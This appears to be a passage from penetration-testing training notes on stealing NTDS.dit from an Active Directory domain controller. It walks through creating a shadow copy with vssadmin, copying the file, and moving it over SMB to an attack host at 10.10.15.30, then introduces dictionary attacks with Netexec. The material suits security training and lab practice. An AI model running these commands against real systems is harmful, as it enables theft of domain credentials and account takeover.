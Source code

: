 ## Creating a shadow copy of the C: drive 
We can use vssadmin to create a Volume Shadow copy or .VSS of the C:  drive or whatever drive the admin chose when installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install but it is possible to change the location. We use VSS for this as it is designed to make copies of volumes that may be read and written to actively without needing to bring a particular app or system down. VSS is used in many different backup and recovery software.

Attacking Active Directory & NTDS.dit

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```


## Copying NTDS.dit from the VSS
We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move our NTDS.dit to out attacking host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

Before copying NTDS.dit to our attack host, we may want to use the technique we learned earlier to create an SMB share on our attack host. Feel free to go back to the `Attacking SAM` section to review that method if needed. 

\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2 is the VSS file root in this we just go in and get the NTDS.dit file from it

#### Transferring NTDS.dit to Attack Host

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

Attacking Active Directory & NTDS.dit

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```


## Dictionary attacks against AD accounts using Netexec


Keep in mind that a a dictionary attack is essentially using the power of a computer to guess a username and or password. It can be rather noisy and easy to detect to conduct these attacks over a network because they can generate alot of network traffic and alerts on the traget system and as well get eventually denied due to logon attempt restrictions applied through Group Policy.
